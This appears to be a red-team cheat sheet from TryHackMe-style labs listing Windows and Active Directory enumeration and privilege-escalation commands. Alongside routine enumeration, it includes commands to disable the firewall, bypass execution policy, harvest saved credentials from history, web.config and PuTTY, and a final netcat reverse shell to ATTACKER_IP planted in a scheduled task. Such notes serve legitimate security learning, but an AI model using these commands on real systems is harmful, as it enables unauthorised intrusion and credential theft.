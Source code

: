 #bypassing script execution 

```
  powershell -ex bypass -File .\sample.ps1
```

#can also be come with

```
  set-executionpolicy -scope currentuser remotesigned
```
The following PowerShell command is to get all active directory user accounts. Note that we need to use  -Filter argument.

```
PS C:\Users\thm> Get-ADUser  -Filter *
DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :
PS C:\Users\thm>
```

Using the SearchBase option, we specify a specific Common-Name CN in the active directory. For example, we can specify to list any user(s) that part of Users.

```
PS C:\Users\thm> Get-ADUser -Filter * -SearchBase "CN=Users,DC=THMREDTEAM,DC=COM"


DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :

```
**Check antivirus which and how many**\

  PS C:\Users\thm> wmic /namespace:\\root\securitycenter2 path antivirusproduct
  
_can also be done with another command_ 

```
PS C:\Users\thm> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct


displayName              : Bitdefender Antivirus
instanceGuid             : {BAF124F4-FA00-8560-3FDE-6C380446AEFB}
pathToSignedProductExe   : C:\Program Files\Bitdefender\Bitdefender Security\wscfix.exe
pathToSignedReportingExe : C:\Program Files\Bitdefender\Bitdefender Security\bdservicehost.exe
productState             : 266240
timestamp                : Wed, 15 Dec 2021 12:40:10 GMT
PSComputerName           :

displayName              : Windows Defender
instanceGuid             : {D58FFC3A-813B-4fae-9E44-DA132C9FAA36}
pathToSignedProductExe   : windowsdefender://
pathToSignedReportingExe : %ProgramFiles%\Windows Defender\MsMpeng.exe
productState             : 393472
timestamp                : Fri, 15 Oct 2021 22:32:01 GMT
PSComputerName           :
```
To check status of antivirus

_for specific output like realtime_
```
PS C:\Users\thm> Get-MpComputerStatus | select RealTimeProtectionEnabled  (mppreference if not worked ) 

RealTimeProtectionEnabled
-------------------------
                    False
```
_for all output of antivirus_

```
PS C:\Users\thm> Get-MpComputerStatus
```

for firewall 
```
PS C:\Users\thm> Get-NetFirewallProfile | Format-Table Name, Enabled

Name    Enabled
----    -------
Domain     True
Private    True
Public     True
```
to disable the firewall

```
PS C:\Windows\system32> Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
PS C:\Windows\system32> Get-NetFirewallProfile | Format-Table Name, Enabled
---- -------
Domain False
Private False
Public False
```

to get firewall rules

```
PS C:\Users\thm> Get-NetFirewallRule | select DisplayName, Enabled, Description

DisplayName                                                                  Enabled
-----------                                                                  -------
Virtual Machine Monitoring (DCOM-In)                                           False
Virtual Machine Monitoring (Echo Request - ICMPv4-In)                          False
Virtual Machine Monitoring (Echo Request - ICMPv6-In)                          False
Virtual Machine Monitoring (NB-Session-In)                                     False
Virtual Machine Monitoring (RPC)                                               False
SNMP Trap Service (UDP In)                                                     False
SNMP Trap Service (UDP In)                                                     False
Connected User Experiences and Telemetry                                        True
Delivery Optimization (TCP-In)                                                  True
```
To see avaiable event log option through powershell
```
PS C:\Users\thm> Get-EventLog -List

  Max(K) Retain OverflowAction        Entries Log
  ------ ------ --------------        ------- ---
     512      7 OverwriteOlder             59 Active Directory Web Services
  20,480      0 OverwriteAsNeeded         512 Application
     512      0 OverwriteAsNeeded         170 Directory Service
 102,400      0 OverwriteAsNeeded          67 DNS Server
  20,480      0 OverwriteAsNeeded       4,345 System
  15,360      0 OverwriteAsNeeded       1,692 Windows PowerShell
```
To get all the installed application and it's version

```
PS C:\Users\thm> wmic product get name,version
Name                                                            Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     14.28.29910
AWS Tools for Windows                                           3.15.1248
Amazon SSM Agent                                                3.0.529.0
aws-cfn-bootstrap                                               2.0.5
AWS PV Drivers                                                  8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  14.28.29910
```
To see hidden directory/files 

```
PS C:\Users\thm> Get-ChildItem -Hidden -Path C:\Users\kkidd\Desktop\
```

To check windows services 

```
net start
```
To Listening ports 

```
netstat -aon

```

_you can also use `findstr` to find specific port on listening like `netstat -aon | findstr "22"`_


To find which service on path running on port 

```
tasklist /svc /FI "PID eq <pidnumber>"
```


To check users 

```
net user
```

You can discover the available groups using `net group` if the system is a Windows Domain Controller or `net localgroup` otherwise,

DNS Zone Transer 
```
dig -t AXFR redteam.thm @10.10.243.185
```
to check avaible shamba share 

```
net share
```

to check network event

```
/opt/snmpcheck/snmpcheck.rb $IP -c COMMUNITY_STRING

```

To check powershell history / remember to use below command on command prompt only 

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
To check saved Credentials

```
cmdkey /list
```

and to run saved crentials user as cmd type

```
runas /savecred /user:userfromsavedcreds cmd.exe
```

IIS configuraiton ( web server to see saved creds) 

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

Retrieve Credentials from Software: PuTTY
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
To Check Permission of file 

```
icacls c:\tasks\schtask.bat
```

To seee the schedular tasks 

```
schtasks
```
To add to schedular task if have approprite permmsion 

```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
